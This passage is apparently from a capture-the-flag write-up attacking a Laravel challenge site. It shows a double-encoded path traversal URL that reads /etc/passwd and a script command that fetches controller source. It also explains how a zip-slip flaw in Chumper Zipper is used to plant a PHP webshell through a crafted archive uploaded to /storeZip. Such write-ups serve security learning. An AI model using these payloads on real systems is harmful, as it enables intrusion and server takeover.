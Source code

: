```http://instakilogram.chall.malicecyber.com/download/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%2565%2574%2563%252f%2570%2561%2573%2573%2577%2564```
I looked at the .env of the Laravel application and find the App_Key, but that was not useful here. I tried to access all the API endpoints (routes) registered in the application, located in the file routes/web.php in the Laravel application

<img src="../Images/7.png" width="500" />

That's weird, what's this /storeZip endpoint ? Nothing mention such a functionnality on the website. Let's try to find the code source of this endpoint in the FormController file, located in the Controller folder so app/Http/Controllers/FormController.php on the Laravel application
```python3 transversal.py /var/www/html/app/Http/Controllers/FormController.php```

We code the source code of various API endpoints, and /storeZip endpoint :
```
public function storeZip(Request $request)
    {
        $this->validate($request,[
            'path' => 'required|mimes:zip,x-tar,gzip,x-bzip2',
            'categories' => 'required|max:10',
            'title' => 'required|max:10',
        ]);

        $zipper = new \Chumper\Zipper\Zipper;

        $zipArchive = $request->file('path');
        $slug = str_slug($request->name);
        if (isset($zipArchive))
        {
            $currentDate = Carbon::now()->toDateString();
            $zipName = $slug.'-'.$currentDate.'-'. uniqid() .'.'. $zipArchive->getClientOriginalExtension();

            $zipArchive->move('/tmp/',$zipName);

            $zipper->make('/tmp/' . $zipName)->extractTo('/tmp');


        }else{
            $imagename = "default.png";
         }
          return redirect()->back()->with('message', 'Post Added');
    `
```
We can see that when the endpoint /storeZip is called with a form : :
- It check the file type in order to accept only archive type, it also check the size of the categorie and the title field, like for the posts
- It transforms the archive name with the date and the based-timestamp id, keep the extension like the posts.
- It moves the archive in the /tmp folder, then extract it in the /tmp folder.

This extraction method could be vulnerable, I looked on the Internet for a vulnerability in the Chumper Zipper package and found this post : https://security.snyk.io/vuln/SNYK-PHP-CHUMPERZIPPER-552162
It appears that prior version 1.0.3, it was possible to extract the file to an other directory with a Path Transversal vulnerability via the name of one of the file in the archive.
By example unzipping a file named ../var/www/file.txt, will trick the package and extract the file not in the /tmp directory, but in /var/www
Maybe the package is not updated on the website ! We could try to create an archive which contains a php file with an evil filename to trick the zipper and extract it to a location we could access, like /var/www/html/public/images/post/

I found an useful python tool which can craft this kind of archive: https://github.com/ptoomey3/evilarc
I put in the archive a simple php webshell with an evil name to path transversal to /var/www/html/public/images/post/ :
<img src="../Images/8.png" width="1100" />
We then upload the evil.zip archive to http://instakilogram.chall.malicecyber.com/storeZip

```